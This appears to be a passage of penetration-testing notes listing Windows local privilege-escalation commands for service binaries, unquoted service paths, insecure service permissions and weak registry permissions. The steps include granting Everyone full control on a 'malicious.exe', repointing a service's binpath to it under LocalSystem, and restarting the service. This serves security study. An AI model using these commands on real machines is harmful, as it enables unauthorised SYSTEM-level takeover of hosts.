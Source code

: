 ```
.\accesschk.exe -qlcv someservice
```

```
icacls malicious.exe /grant Everyone:F
```

```
sc stop/start OR shutdown /r /t 0
```

### Unquoted Service Paths

```
icacls C:\path\to\this directory\executable.exe
```

_Create file at C:\path\to\this.exe_

```
icacls C:\path\to\this.exe /grant Everyone:F
```

```
sc stop/start OR shutdown /r /t 0
```

### Insecure Service Permissions

```
.\accesschk.exe /accepteula -uwcqv someuser *
```

```
.\accesschk.exe /accepteula -qlcv someservice
```

```
icacls malicious.exe /grant Everyone:F
```

```
sc config someservice binpath="C:\path\to\malicious.exe" obj= LocalSystem
```

```
sc stop/start someservice
```

## Weak Registry Permissions

{% code overflow="wrap" %}
```
.\accesschk.exe -ulvqkws grouporuser HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services
```
{% endcode %}

```
reg query \path\to\regservice
```

